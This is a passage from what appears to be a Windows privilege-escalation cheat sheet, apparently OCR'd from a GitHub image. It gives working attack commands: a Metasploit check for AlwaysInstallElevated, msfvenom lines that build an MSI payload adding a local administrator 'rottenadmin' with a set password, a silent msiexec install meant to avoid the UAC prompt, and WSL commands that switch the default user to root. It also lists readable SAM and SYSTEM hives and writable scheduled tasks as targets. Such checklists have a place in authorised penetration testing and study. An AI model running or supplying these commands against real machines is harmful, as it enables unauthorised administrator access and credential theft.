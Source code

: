 	# check with msf
	exploit/windows/local/always_install_elevated
	
	# generate payload with msfvenom
	# no uac format
	msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi
	# using the msiexec the uac wont be prompted
	msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi
	
	# install .msi
	msiexec /quiet /qn /i C:\Users\Homer.NUCLEAR\Downloads\donuts.msi
	```
- [ ] Scheduled tasks
	- [ ] Executable file writeable
	- [ ] Dependency writeable
- [ ] Sensitive files readable
	- [ ] SAM Hive
	- [ ] SYSTEM Hive
- [ ] Windows Subsystem For Linux
	```powershell
	wsl whoami
	./ubuntum2004.exe config --default-user root
	wsl whoami
	wsl python -c 'put here your command'
	```